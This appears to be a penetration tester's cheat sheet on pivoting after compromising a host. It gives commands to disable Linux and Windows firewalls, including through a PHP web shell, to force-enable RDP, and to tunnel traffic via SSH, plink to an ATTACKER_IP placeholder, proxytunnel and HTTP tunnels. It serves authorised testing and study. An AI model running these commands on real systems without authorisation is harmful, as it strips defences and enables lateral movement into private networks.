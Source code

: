 # Pivoting and network on target


## Tunneling your traffic through another host : https://guide.offsecnewbie.com/network-pen

## Linux: Disable firewall

    systemctl stop firewalld
    iptables -F

## Windows: Disable firewall

    Check firewall state: netsh firewall show state
    Turn off through PHP web shell: system(‘netsh firewall show state’);
    Turn firewall off: netsh advfirewall set allprofiles state off
    netsh firewall set opmode disable


## Enable RDP through the command line
    reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
    if terminal services are disabled: sc config TermService start= "demand"
    net start TermService
    
# Port Forwarding / SSH Tunneling
## SSH: Local Port Forwarding
````
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
````
## SSH: Dynamic Port Forwarding

````
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -D 127.0.0.1:8080 user@SSH_SERVER
````
## SSH: Remote Port Forwarding
````
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
````

## Proxy Tunnel
````
# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128
# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;
proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
ssh user@127.0.0.1 -p 5555
````
## HTTP Tunnel: SSH Over HTTP
````

# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22
hts -F localhost:22 80

# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80
htc -F 8080 192.168.1.15:80

# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22
ssh localhost -p 8080
````
